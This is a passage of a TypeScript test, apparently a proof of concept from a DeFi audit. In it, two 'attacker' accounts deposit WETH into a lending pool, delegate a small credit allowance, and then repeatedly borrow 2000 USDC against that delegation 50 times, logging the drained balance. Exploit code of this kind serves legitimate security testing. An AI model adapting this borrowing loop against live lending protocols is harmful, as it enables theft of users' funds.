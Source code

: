 ```typescript
        "0"
      );

    var attackerAddress0 = users[1]
    var attackerAddress1 = users[2]
    await weth
      .connect(attackerAddress0.signer)
      .mint(await convertToCurrencyDecimals(weth.address, "10"));

    await weth
      .connect(attackerAddress0.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(attackerAddress0.signer)
      .deposit(
        weth.address,
        0,
        ethers.utils.parseEther("10"),
        attackerAddress0.address,
        "0"
      );

    await weth
      .connect(attackerAddress1.signer)
      .mint(await convertToCurrencyDecimals(weth.address, "10"));

    await weth
      .connect(attackerAddress1.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(attackerAddress1.signer)
      .deposit(
        weth.address,
        0,
        ethers.utils.parseEther("10"),
        attackerAddress1.address,
        "0"
      );

    await debtToken
      .connect(attackerAddress1.signer)
      .approveDelegation(attackerAddress0.address, ethers.utils.parseEther("1"))

    for(var i=0; i<50;i++) {
      await pool
      .connect(attackerAddress0.signer)
      .borrow(
        usdc.address,
        0,
        await convertToCurrencyDecimals(usdc.address, "2000"),
        AAVE_REFERRAL,
        attackerAddress1.address
      );
    }
    var usdcBalance = await usdc.balanceOf(attackerAddress0.address)
    console.log("attacker balance: ", await convertToCurrencyUnits(usdc.address, usdcBalance.toString()))
  });
});
```
